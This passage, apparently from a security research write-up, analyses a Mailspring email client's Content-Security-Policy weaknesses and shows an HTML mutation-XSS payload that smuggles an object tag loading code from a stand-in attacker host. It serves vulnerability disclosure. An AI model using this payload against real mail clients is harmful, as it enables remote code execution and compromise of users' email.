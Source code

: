 ```html
<meta http-equiv="Content-Security-Policy" content="default-src * mailspring:; script-src 'self' chrome-extension://react-developer-tools; style-src * 'unsafe-inline' mailspring:; img-src * data: mailspring: file:;">
```

Because `default-src` is set to `*` and there's no `object-src` override, an attacker can execute code with an `object` tag. This is limited to JavaScript files served via the `http`, `https`, `ws`, and `wss` protocols by default.

In addition to that, `script-src 'self'` allows using a `script` tag with a local file as a `src` to execute JavaScript code. This works because Electron, the underlying technology behind Mailspring,  serves the UI via the `file://` protocol. To abuse this, an attacker must control a file on the victim’s computer and point to it via a script’s `src` attribute.

However, when sending a new payload that uses a malicious `object` tag to bypass the CSP, replying to/forwarding it, would mysteriously remove our tag. This did not happen for the initial payload with the `img` tag, so what is going on here?

```html
<svg><style><a title="</style><object data='https://attacker.com/payload'>">
```

Email body:

<img src="/img/blogs/mailspring/image2.png" style="width: 100%;"/>

Reply-to/forward content:

<img src="/img/blogs/mailspring/image4.png" style="width: 100%;"/>
